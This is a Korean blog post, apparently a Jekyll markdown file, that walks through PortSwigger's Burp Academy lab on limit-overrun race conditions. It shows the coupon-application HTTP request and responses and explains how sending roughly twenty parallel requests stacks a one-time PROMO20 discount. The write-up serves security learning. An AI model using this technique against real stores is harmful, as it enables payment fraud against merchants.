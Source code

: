 ```yaml
---
layout: post
title: "Burp Academy-레이스컨디션 관련 취약점: Limit overrun race conditions"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, 레이스컨디션, Race Condition]
toc: true
last_modified_at: 2023-09-01 10:33:00 +0900
---
```


# 개요
- 새로 추가된 레이스 컨디션 관련 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun
- 취약점 설명페이지: https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions
- 난이도: APPRENTICE (쉬움)

# Limit Overrun
- Limit Overrun: 어플리케이션에서 설정된 실행 횟수 제한(Limit)를 넘어서 어떤 작업을 수행하게 하는(Overrun) 공격 기법

# 랩 설명
- 이 랩에는 상품을 적정 가격이 아닌 다른 가격으로 구매할 수 있는 레이스 컨디션 취약점 있다. 
- Lightweight L33t Leather Jacket 를 구매하는 랩이 풀린다. 
- wiener:peter 로 로그인할 수 있다. 
- 이 랩을 푸는데는 Burp Suite 버전 2023.9이상이 필요하다. 

```
This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log in to your account with the following credentials: wiener:peter.

Note
Solving this lab requires Burp Suite 2023.9 or higher.
```

# 도전
## 관찰
- 사야하는 재킷의 가격이 1337달러로 비싸다. 

![상품가격확인](/images/burp-academy-race-condition-1-1.png)

그리고 잔고는 50달러 밖에 없다. 

![잔고확인](/images/burp-academy-race-condition-1-2.png)

- 20%세일된 가격으로 살 수 있는 `PROMO20`라는 쿠폰 코드를 알려주고 있다. 아마 이 코드는 일회용일텐데, 동시에 여러개의 요청을 보내면 추가로 할인이 될 것으로 예상된다. 
- 1337달러의 상품을 할인을 계속해서 50달러 이하로 만들어보자. 


## 레이스 컨디션 가능한 곳 찾기 
- 여러 요청을 그룹으로 묶은 뒤 "Single-packet attack" 을 수행할 수 있다. (Send 셀렉트박스에서 Send Group in parallel (single packet attack) 을 선택한다.)
- 쿠폰 적용하는 요청이 레이스 컨디션이 되는 것을 확인할 수 있었다. 

![](/images/burp-academy-race-condition-1-3.png)

![](/images/burp-academy-race-condition-1-4.png)

```http
POST /cart/coupon HTTP/2
Host: 0aef00fd0340b8968315101100090090.web-security-academy.net
Cookie: session=HFLp5UN41E0NpruM7ySorUcjTDcGwXS1
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aef00fd0340b8968315101100090090.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aef00fd0340b8968315101100090090.web-security-academy.net/cart
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

csrf=CVwhMdoY1iM8W1qsFbR2Mu0ACJg3fp9w&coupon=PROMO20
```

쿠폰이 적용되면 다음과 같은 응답이 돌아온다. 

```http
HTTP/2 302 Found
Location: /cart
X-Frame-Options: SAMEORIGIN
Content-Length: 14

Coupon applied
```



만약 서버측에서 쿠폰이 이미 사용처리된 후라면 다음과 같은 응답이 돌아온다. 

```http
HTTP/2 302 Found
Location: /cart?couponError=COUPON_ALREADY_APPLIED&coupon=PROMO20
X-Frame-Options: SAMEORIGIN
Content-Length: 22

Coupon already applied
```

테스트해보니 쿠폰이 두번이상은 적용이 안된다. 뭔가 다른 방법이 있는건가? 생각해보자.. 

# 풀이 
모르겠다. 답을 본다. 답을 보니 결국 위에서 한 과정이 옳았다. 다만 레이스컨디션이라서 그 때그때 서버의 처리속도에 따라 달라진다. 50달러 이하로 내려가지 않으면 쿠폰을 삭제하고 다시 시도하면 된다. 14번만에 성공했다. 
다음과 같이 약20여개의 요청을 그룹화해서 병렬로 보냈다. 

![병렬로 보내는 모습](/images/burp-academy-race-condition-1-6.png)

중복세일에 성공해서 30달러까지 깍은 모습이다. 

![중복세일에 성공해서 30달러까지 깍은 모습](/images/burp-academy-race-condition-1-5.png)

구매를 시도하면 문제풀이에 성공했다는 메세지가 표시된다.

![풀이 성공](/images/burp-academy-race-condition-1-success.png)